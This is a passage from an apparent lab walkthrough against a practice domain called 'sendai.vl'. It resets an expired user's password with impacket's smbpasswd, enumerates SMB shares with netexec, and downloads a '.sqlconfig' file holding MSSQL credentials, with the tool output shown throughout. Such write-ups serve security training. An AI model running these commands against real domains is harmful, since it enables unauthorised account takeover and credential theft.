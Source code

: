 Password can be changed with `impacket-smbpasswd`

```bash
python3 smbpasswd.py sendai.vl/Thomas.Powell@dc.sendai.vl -newpass '$mav1234' 
```

### Output
```bash
mpacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

lets check shares

```bash
 netexec smb dc.sendai.vl -u Thomas.Powell -p '$mav1234' --shares
```

### Output

```output
SMB         10.10.91.145    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.10.91.145    445    DC               [+] sendai.vl\Thomas.Powell:$mav1234 
SMB         10.10.91.145    445    DC               [*] Enumerated shares
SMB         10.10.91.145    445    DC               Share           Permissions     Remark
SMB         10.10.91.145    445    DC               -----           -----------     ------
SMB         10.10.91.145    445    DC               ADMIN$                          Remote Admin
SMB         10.10.91.145    445    DC               C$                              Default share
SMB         10.10.91.145    445    DC               config          READ,WRITE      
SMB         10.10.91.145    445    DC               IPC$            READ            Remote IPC
SMB         10.10.91.145    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.91.145    445    DC               sendai          READ,WRITE      company share
SMB         10.10.91.145    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.91.145    445    DC               Users           READ            
                                                    

```

From config share, we can grab `.sqlconfig` having credentials to MSSQL
```bash
smbclient -U 'Thomas.Powell' //dc.sendai.vl/config   
```

```output
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 25 11:03:52 2025
  ..                                DHS        0  Wed Jul 19 10:11:25 2023
  .sqlconfig                          A       78  Tue Jul 11 08:57:11 2023

                7309822 blocks of size 4096. 1814206 blocks available
smb: \> get .sqlconfig  
getting file \.sqlconfig of size 78 as .sqlconfig (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> exit


```

